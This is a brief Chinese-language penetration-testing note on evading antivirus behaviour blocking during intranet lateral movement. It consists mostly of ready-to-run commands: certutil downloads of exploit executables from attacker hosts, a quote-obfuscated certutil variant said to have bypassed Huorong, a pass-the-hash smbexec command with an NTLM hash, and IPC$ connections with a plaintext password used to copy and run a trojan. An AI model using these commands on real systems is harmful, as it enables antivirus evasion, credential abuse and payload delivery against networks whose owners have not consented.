 # 前置

在内网渗透中，当我们取得机器的一部分权限后，想进行一些命令执行如远程下载文件时，常常会被杀软给行为拦截

比如命令：

```bash
certutil.exe -urlcache -split -f http://192.168.0.111:8080/ms10-051.exe exploit.exe
```

这就会被行为拦截



# 思路一

硬刚下载命令，比如：

```bash
"c""e""r""t""u""t""i""l" -"u""r""l""c""a""c""h""e" -split -f http://192.168.1.14:8000/5.exe c:/5.exe
```

这个以前是可以绕过火绒的



# 思路二

当我们执行远程下载命令时，存在**外部执行**和**内部执行**两种方式，杀软对外部执行拦截较为严重，我们可以尝试用一些内部执行的方法：

1、交互式shell

比如如下命令（hash传递取得交互式shell）取得了一个 `C:/windows/system32` 的交互式shell，再使用一些远程下载命令可能就会成功

```bash
proxychains python smbexec.py -hashes :f1065013e55bbbeb64ddab768229710d xiaodi/administrator@192.168.1.10
```

```bash
certutil.exe -urlcache -split -f http://192.168.0.111:8080/ms10-051.exe exploit.exe
```

2、copy 命令

利用 ipc 连接后，可以使用 copy 命令从之前已沦陷的机器上 copy 木马，然后执行

```bash
net use \\192.168.3.21\ipc$ "Admin12345" /user:administrator #建立IPC连接 或者还可以 票据传递导入票据后再 copy
copy 1.bat \\192.168.3.21\C$ # 复制文件
```


